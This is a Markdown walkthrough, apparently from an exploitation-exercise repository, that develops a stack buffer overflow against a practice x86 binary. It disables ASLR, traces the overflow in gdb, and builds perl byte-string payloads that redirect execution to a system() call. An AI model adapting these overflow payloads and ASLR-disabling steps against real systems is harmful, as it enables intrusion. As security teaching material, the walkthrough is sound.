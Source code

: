 # Walkthrough for Part 1 (x86)

## Preparing the environment
Note the status of ASLR.
If it's not 0, disable it:

```bash
cat /proc/sys/kernel/randomize_va_space
echo 0 > /proc/sys/kernel/randomize_va_space
```

The program calls `system("./solve")` so I've created a simple program to test if the exploit works.
Compile it with `gcc solve.c -o solve`.

Ensure that the environment variables don't interfere with the stack.
GDB also sets some environment variables at startup, so we want to get rid of those as well.
You can ignore the source line if you don't have a `.gdbinit`:

```bash
env -i gdb /path/to/part0x01_x86
source ~/.gdbinit
unset env LINES
unset env COLUMNS
```

![Preparing the environment](/00.png)

## Lookint at the binary
The `system(3)` call sequence begins at `0x80485e0 <main+138>`
This is our target.

Set a breakpoint after the `scanf(3)` call to follow what happens after the input.
Another breakpoint before the stack frame is cleaned up so that we can watch the buffer overflow:

```gdb
break *main + 94
break *main + 172
```

![Looking at the binary](/01.png)

## Test run with "test" as input
We find the string is read into `buffer` at `0xffffddcc`.
Also, `0x0b` (vertical tab) is placed at the start of the input string.
This means the `strcmp(3)` will never succeed.

![Test input](/02.png)

## Track down the buffer overflow
We can use `r < [input file]` to give gdb a file to use as stdin.
The breakpoint after `scanf(3)` is no longer useful.

```break
delete 1
```

### First payload (executed in the system shell):
```bash
perl -e 'print "A"x32' > payload_gdb.dat
```

![Payload 1](/03.png)

### Second payload:
```bash
perl -e 'print "A"x16 . "B"x16' > payload_gdb.dat
```

![Payload 2](/04.png)

### Third payload:
```bash
perl -e 'print "A"x16' > payload_gdb.dat
```

This one doesn't segfault, let's work from here.

![Payload 3](/05.png)

## Something *very* interesting to note about the program
At the end of `main()`, `ecx` gets loaded with value at `[ebp - 0x04] = [0xffffdde8 - 0x04] = [0xffffdde4] = 0xffffde00`.
After that, `leave` is called to clean up stack frame.
But after the stack frame is cleaned up, `esp` gets loaded with `ecx - 0x04 = 0xffffddfc`.

![Interesting part 1](/06.png)
![Interesting part 2](/07.png)
![Interesting part 3](/08.png)
![Interesting part 4](/09.png)

o_O

## Exploit time!
We obviously need to control `eip`.
This means we need to be able to have our payload value at the top of the stack right before `ret`.
Remembering the part above, we want to set `esp` to an address in `buffer`.
That way `ret` will pop a value that we can control as the return address.
We can calculate that `ecx` is loaded from an address `buffer + 0x18` (24 bytes past `buffer`).

```bash
perl -e 'print "A"x24 . "BBBB"' > payload_gdb.dat
```

![Exploit part 1](/0a.png)

Now we can set `esp` to be loaded with the address of `buffer + 1` to avoid the vertical tab.
Taking into account the `- 0x04`, `BBBB` needs to become `buffer + 0x01 + 0x04 = 0xffffddcc + 0x05 = 0xffffddd1`

```bash
perl -e 'print "A" . "CCCC" . "D"x 19 . "\xd1\xdd\xff\xff"' > payload_gdb.dat
```

![Exploit part 2](/0b.png)

Now we can test setting the return address we want:

```bash
perl -e 'print "A" . "\xe0\x85\x04\x08" . "D"x 19 . "\xd1\xdd\xff\xff"' > payload_gdb.dat
```

![Exploit part 4](/0c.png)

We notice when we try to `ret` into the target that `ebp` is set to `0x00` at the call to `leave`.
This is no good.
We can maintain the old `ebp` to have a valid stack frame at the `ret` by adding the value at the end of our payload.

```bash
perl -e 'print "A" . "\xe0\x85\x04\x08" . "D"x 19 . "\xd1\xdd\xff\xff" . "\xe8\xdd\xff\xff"' > payload_gdb.dat
```

![Exploit part 5](/0d.png)

## Testing outside of gdb
When we run outside of gdb, we see that the exploit is unusccessful.
Even though we clear the environment variables, we still see `SIGSEGV`.

![Testing exploit in a real environment](/0e.png)

`test.c` can be used to figure out the offset of the stack inside gdb vs outside gdb.
Compile it with `gcc test.c -m32 -o test0x01_x86`.
We need the name to be the same length so that the arguments on the stack are the same size.

![Getting the offset](/0f.png)

Inside gdb, `ebp` is at `0xffffddd8`.
Outside of gdb, `ebp` is at `0xffffde18` which is `0x40` higher in memory.
All of the old stack addresses need to be incremented accordingly.
The return address itself doesn't, since it's in the code, not the stack.
This means:

 * `ebp` becomes `0xffffdde8 + 0x40 = 0xffffde28`
 * the string is read into `buffer` at `0xffffddcc + 0x40 = 0xffffde0c`
 * `ecx` gets loaded with value at `[ebp - 0x04] = [0xffffde28 - 0x04] = [0xffffde24]`
 * `esp` gets loaded with `ecx - 0x04` like before
   * needs to become `buffer + 0x01 + 0x04 = 0xffffde0c + 0x05 = 0xffffde11`

We can now try a new payload:

```bash
perl -e 'print "A" . "\xe0\x85\x04\x08" . "C"x 19 . "\x11\xde\xff\xff" . "\x28\xde\xff\xff"' > payload.dat
```

If disabled, re-enable ASLR when done (enter the value `cat`ed earlier)

```bash
echo 2 > /proc/sys/kernel/randomize_va_space
```

![Success](/10.png)
